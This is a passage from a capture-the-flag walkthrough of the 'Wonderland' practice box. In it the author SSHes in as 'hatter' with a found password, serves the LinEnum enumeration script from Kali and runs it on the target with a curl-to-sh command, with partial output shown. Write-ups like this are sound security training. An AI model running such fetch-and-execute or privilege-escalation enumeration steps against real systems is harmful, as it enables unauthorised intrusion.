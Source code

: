 We have a password, assuming this is for hatter so we can ssh on without having to escalate:

```text
root@kali:~/thm/wonderland# ssh hatter@10.10.208.142
hatter@10.10.208.142's password:

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

I had a look around but nothing obvious jumped out, so used LinEnum to see what it can find:

```text
root@kali:~/thm/wonderland# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2020-06-06 17:49:48--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 199.232.56.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|199.232.56.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’
LinEnum.sh                                                 100%[=======================================================================================================================================>]  45.54K  --.-KB/s    in 0.03s
2020-06-06 17:49:48 (1.43 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

root@kali:~/thm/wonderland# python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

Script downloaded, now switch to box to pull it across from Kali:

```text
hatter@wonderland:~$ curl http://10.9.17.195:8000/LinEnum.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 46631  100 46631    0     0   263k      0 --:--:-- --:--:-- --:--:--  263k
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982
[-] Debug Info
[+] Thorough tests = Disabled
Scan started at:
Sat Jun  6 16:58:23 UTC 2020

### SYSTEM ##############################################
[-] Kernel information:
Linux wonderland 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
[-] Kernel information (continued):
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-003) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020
[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.4 LTS"
NAME="Ubuntu"
VERSION="18.04.4 LTS (Bionic Beaver)"
```